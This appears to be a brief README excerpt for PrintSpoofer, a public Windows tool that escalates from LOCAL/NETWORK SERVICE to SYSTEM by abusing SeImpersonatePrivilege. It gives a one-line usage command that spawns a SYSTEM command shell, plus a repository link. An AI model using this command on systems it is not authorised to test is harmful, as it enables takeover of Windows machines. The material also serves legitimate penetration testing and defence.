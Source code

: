 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

```cmd
PrintSpoofer.exe -i -c cmd
```



https://github.com/itm4n/PrintSpoofer